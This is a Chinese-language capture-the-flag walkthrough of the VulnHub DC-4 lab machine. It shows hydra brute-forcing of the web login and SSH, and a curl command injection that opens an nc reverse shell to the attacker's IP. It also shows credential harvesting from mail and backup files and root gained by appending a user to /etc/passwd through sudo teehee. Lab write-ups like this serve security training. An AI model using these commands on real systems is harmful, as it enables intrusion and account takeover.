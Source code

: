# DC: 4

2024-5-28 https://www.vulnhub.com/entry/dc-4,313/

difficulty: beginners/intermediates

## IP

192.168.5.29

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 8d6057066c27e02f762ce642c001ba25 (RSA)
|   256 e7838cd7bb84f32ee8a25f796f8e1930 (ECDSA)
|_  256 fd39478a5e58339973739e227f904f4b (ED25519)
80/tcp open  http    nginx 1.15.10
|_http-server-header: nginx/1.15.10
|_http-title: System Tools
```

http://192.168.5.29/ 首页是一个登陆页面，可能存在 sql 注入，先用 gobuster 扫描看看还有什么其他目录。

```
http://192.168.5.29/index.php            (Status: 200) [Size: 506]
http://192.168.5.29/images               (Status: 301) [Size: 170] [--> http://192.168.5.29/images/]
http://192.168.5.29/login.php            (Status: 302) [Size: 206] [--> index.php]
http://192.168.5.29/css                  (Status: 301) [Size: 170] [--> http://192.168.5.29/css/]
http://192.168.5.29/logout.php           (Status: 302) [Size: 163] [--> index.php]
http://192.168.5.29/command.php          (Status: 302) [Size: 704] [--> index.php]
```

都需要登陆后才能访问。

只有先尝试爆破一下登陆的页面了，看看能不能找到可用的用户凭据：

```
hydra -t 20 -l admin -P ~/tools/dict/rockyou.txt 192.168.5.29 -f http-post-form "/login.php:username=^USER^&password=^PASS^:302"

[80][http-post-form] host: 192.168.5.29   login: admin   password: happy
```

找到了 admin 的用户密码 happy, 进入系统后，发现 http://192.168.5.29/command.php 链接，有 3 个按钮，可以调用系统命令。

进行拦截，发现上传的数据包不是固定的：

```
radio=df+-h&submit=Run
```

radio 这里没有固定，可以自行修改：

```
radio=ls+-al&submit=Run
```

可以正常显示 ls -al, 写入反弹 payload，别忘记加 session 的 cookie:

```
curl -b 'PHPSESSID=afn62b979jtv0u4q2bp2nql7g3' --data-urlencode "radio=ls -al" --data-urlencode "submit=Run" http://192.168.5.29/command.php
```

发现目标系统有 /bin/nc ，可以用 nc 进行反弹，kali 上监听 8888 端口：

```
curl -b 'PHPSESSID=afn62b979jtv0u4q2bp2nql7g3' --data-urlencode "radio=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.5.3 8888 >/tmp/f" --data-urlencode "submit=Run" http://192.168.5.29/command.php
```

得到反弹 shell 后，先升级下 tty。

在 /home 目录下有 3 个用户 home 目录文件夹，charles jim sam，其中 jim 文件夹中有一个密码文件：

```
www-data@dc-4:/home/jim$ ls -al backups/
total 12
drwxr-xr-x 2 jim jim 4096 Apr  7  2019 .
drwxr-xr-x 3 jim jim 4096 Apr  7  2019 ..
-rw-r--r-- 1 jim jim 2047 Apr  7  2019 old-passwords.bak
```

猜测可能这 3 个用户的密码可能存在这里，可以先用 hydra 爆破一波：

```
hydra -t 20 -l user -P pass  ssh://192.168.5.29

[22][ssh] host: 192.168.5.29   login: jim   password: jibril04
```

找到了 jim 的密码 jibril04，ssh 登陆进去。

发现线索：

```
jim@dc-4:~$ cat mbox
From root@dc-4 Sat Apr 06 20:20:04 2019
Return-path: <root@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 20:20:04 +1000
Received: from root by dc-4 with local (Exim 4.89)
	(envelope-from <root@dc-4>)
	id 1hCiQe-0000gc-EC
	for jim@dc-4; Sat, 06 Apr 2019 20:20:04 +1000
To: jim@dc-4
Subject: Test
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCiQe-0000gc-EC@dc-4>
From: root <root@dc-4>
Date: Sat, 06 Apr 2019 20:20:04 +1000
Status: RO

This is a test.
```

像是个邮件，可能 jim 还有其他邮件，看看有没有 cat /var/mail/jim 发现了密码：

```
Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles
```

su 切换到 charles，输入密码 ^xHhA&hvim0y

发现 sudo :

```
(root) NOPASSWD: /usr/bin/teehee
```

/usr/bin/teehee 与 tee 的使用方法一样，可以追加特定内容到特定文件：

```
echo 'tom:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:User_like_root:/root:/bin/bash' | sudo -u root /usr/bin/teehee -a "/etc/passwd"
```

在 /etc/passwd 中添加一个新用户 tom，密码为 123，su 切换到 tom：

```
charles@dc-4:~$ su tom
Password:
root@dc-4:/home/charles# id
uid=0(root) gid=0(root) groups=0(root)
root@dc-4:/home/charles# cd /root
root@dc-4:~# ls -al
total 28
drwx------  3 root root 4096 Apr  7  2019 .
drwxr-xr-x 21 root root 4096 Apr  5  2019 ..
-rw-------  1 root root   16 Apr  7  2019 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  976 Apr  6  2019 flag.txt
drwxr-xr-x  2 root root 4096 Apr  6  2019 .nano
-rw-r--r--  1 root root  148 Aug 18  2015 .profile
root@dc-4:~# cat flag.txt



888       888          888 888      8888888b.                             888 888 888 888
888   o   888          888 888      888  "Y88b                            888 888 888 888
888  d8b  888          888 888      888    888                            888 888 888 888
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888


Congratulations!!!

Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```

发现 suid 程序（这里不能提权，没用可以不用看了）：

```
find / -perm -u=s -ls 2>/dev/null

9804 4 -rwsrwxrwx  1 jim  jim   174 Apr  6  2019 /home/jim/test.sh

www-data@dc-4:/usr/share/nginx/html$ ls -al /home/jim/test.sh
-rwsrwxrwx 1 jim jim 174 Apr  6  2019 /home/jim/test.sh
```

可以有修改权限：

```
www-data@dc-4:/usr/share/nginx/html$ cat /home/jim/test.sh
#!/bin/bash
for i in {1..5}
do
 sleep 1
 echo "Learn bash they said."
 sleep 1
 echo "Bash is good they said."
done
 echo "But I'd rather bash my head against a brick wall."
```

发现 sleep 没有使用绝对路径，可以尝试利用进行程序劫持，echo 是内建命令，不能劫持，尝试劫持 sleep：

```
echo '/bin/bash -p' > /tmp/sleep
chmod +x /tmp/sleep
PATH=/tmp:$PATH /home/jim/test.sh
```

但是不行，发现执行后，还是 www-data 权限。
